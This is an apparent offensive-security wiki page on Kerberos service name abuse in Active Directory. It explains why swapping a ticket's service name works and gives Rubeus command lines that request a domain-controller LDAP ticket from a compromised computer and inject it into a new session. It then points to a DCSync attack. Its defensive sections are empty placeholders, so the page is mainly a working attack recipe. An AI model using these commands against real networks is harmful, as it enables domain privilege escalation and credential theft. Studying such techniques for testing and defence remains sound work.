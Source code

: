 # Service Name Abuse
---

## Vulnerability

To understand this attack, you must consider a few things about Kerberos protocol:
* Service tickets (TGS) are encrypted with the the service's symetric key.
* This key is derived from the password hash of the principal running the service (often `NT AUTHORITY\SYSTEM`).
* SPN has no impact in the process, **it even can be changed**.
* Microsoft says everything is fine with that...

Considering that, and the fact that most services on a Windows computer are running as SYSTEM, most of the TGS are encrypted with the same symetric key. You can then request TGS for other SPN as long as the expected symetric key is the same.

## Prerequisites

* Having compromised a domain computer running a service.

## Exploit

```powershell
./Rubeus.exe s4u /impersonateuser:$username /msdsspn:$service/$target /altservice:$anotherservice /user:$hostname$ /ticket:$TGTBase64EncodedTicket /nowrap

# For example, let's request a TGS for LDAP service on the domain controller instead of CIFS.
./Rubeus.exe s4u /impersonateuser:$username /msdsspn:cifs/$dc /altservice:ldap /user:$computer$ /ticket:$TGTBase64EncodedTicket /nowrap

# Don't forget to pass the ticket to a new session.
 ./Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:$domain /username:$username /password:$FakePassword /ticket:$TGSBase64EncodedTicket
```

Now you have a TGS for LDAP service on the Domain Controller, you can - *for example* - perform a [DCSync attack](/ad/dcsync/).

## Useful links

* TODO: List links here.

## Recommendations

- [ ] TODO: List recommendations here.